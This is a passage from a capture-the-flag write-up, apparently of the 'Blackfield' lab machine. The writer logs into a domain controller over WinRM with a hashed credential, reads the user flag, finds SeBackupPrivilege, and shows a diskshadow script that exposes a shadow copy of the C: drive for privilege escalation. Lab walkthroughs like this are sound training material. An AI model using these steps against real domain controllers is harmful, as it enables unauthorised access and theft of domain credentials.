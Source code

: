 Connected over WinRM and retrieved the user flag. Noice!

```
evil-winrm -u svc_backup -H <REDACTED> -i dc01.blackfield.local

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup

*Evil-WinRM* PS C:\Users\svc_backup\Documents> hostname
DC01

*Evil-WinRM* PS C:\Users\svc_backup\Documents> type c:\users\svc_backup\desktop\user.txt
3920bb317a0bef51****************
```

# PrivEsc

Listing the current user privileges reveals the *SeBackupPrivilege*.

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Created this script from my CPTS notes, saving it as *script.txt.*

```
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup 
exit 
```

Note: afaik all lines must end with a space ‘ ‘.

Uploaded the script and the two DLLs from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege).
